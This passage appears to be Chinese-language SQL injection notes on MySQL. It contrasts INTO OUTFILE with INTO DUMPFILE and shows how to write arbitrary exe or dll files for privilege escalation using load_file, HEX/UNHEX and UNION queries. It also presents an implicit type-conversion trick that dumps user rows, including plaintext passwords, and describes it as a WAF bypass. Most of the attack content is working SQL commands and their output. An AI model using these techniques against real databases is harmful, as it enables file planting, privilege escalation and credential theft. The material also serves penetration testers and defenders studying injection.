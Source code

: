 dumpfile与outfile函数区别  
 
SELECT into outfile :可以导出每行  
 
SELECT into dumpfile :只能导出一行（将目标文件写入同一行内）  
 
into outfile不可导出二进制文件，文件会被破坏，转义等  
 
into dumpfile可导出完整可执行二进制文件  
 
into outfile:导出内容  
  
into dumpfile:导出二进制文件  
 

## 四、直接写exe,dll文件提权

MYSQL只要数据能在对应数据类型的列中完整存储，就可以导出任意文件名的完整文件。也就是说，我们把二进制文件用HEX()编码后可以存储在TEXT数据类型等非二进制编码的字段上，导出时UNHEX()解码依然能保存为完整的二进制文件。如  
```
mysql>create table a (id int,cmd TEXT);
mysql>insert into a (id,cmd) values (1,hex(load_file('c:\\windows\\system32\\regedt32.exe')));
mysql>select unhex(cmd) FROM a where id =1 INTO DUMPFILE 'd:\\regedt32.exe';
```
语句中unhex(cmd)已经改变了所选字段的数据类型为二进制，因此可以导出完整的二进制文件，而在注入中我们用UNION连接SELECT语句时，UNION后面查询的字段数量、字段数据类型都得与最前面的SELECT一样，此时  

`SELECT cmd FROM a where id=1 and 1=2 UNION SELECT unhex(cmd) FROM a INTO DUMPFILE 'd:\\regedt32.exe';`

语句中unhex(cmd)字段的数据类型与最前面的cmd字段的数据类型不同，二进制编码的数据无法在TEXT数据类型中完整储存，因此无法导出完整的二进制文件。要导出完整的二进制文件，最前面SELECT所选的字段中必须有以二进制存储数据的数据类型，如BLOB,LONGBLOB等。  

如果使用INTO DUMPFILE导出数据，则MySQL只把一行写入到文件中，不对任何列或行进行终止，也不执行任何转义处理。INTO DUMPFILE 的这个特性说白了就是“无缝连接”，它既可以用于从列中导出数据到文件，也可以用于从表中导出数据到文件。  

UNHEX()函数执行从HEX()的反向操作，0x 作用与UNHEX()意义相同。就是说，它将参数中的每一对十六进制数字理解为一个数字，并将其转化为该数字代表的字符，结果字符以二进制字符串的形式返回。  

## 五、mysql 的类型隐式转换
```
mysql> SELECT * FROM users WHERE username = 'a'+'b' AND password = 'a'+'b';
+--------+----------+--------------------+
| userid | username | password           |
+--------+----------+--------------------+
|      1 | admin    | MySuperS3cretPass! |
+--------+----------+--------------------+
1 row in set, 7 warnings (0.00 sec)
mysql> SELECT * FROM users WHERE username = 'a'+'666' AND password = 'a'+'b';
+--------+----------+----------+
| userid | username | password |
+--------+----------+----------+
|      2 | 666admin | nataSmaI |
+--------+----------+----------+
```
加号在这里是算术运算符，故会产生类型转换为double，如下引用所示：  
> When an operator is used with operands of different types, type conversion occurs to make the operands compatible.
In all other cases, the arguments are compared as floating-point (real) numbers.  

这是一条绕过 WAF 的 vector。  

## Reference
[sql-injection-cheat-sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)  
[Implicit type conversion in MySQL](https://tom.vg/2013/04/mysql-implicit-type-conversion/)  
[sql_injection](http://websec.ca/kb/sql_injection)  
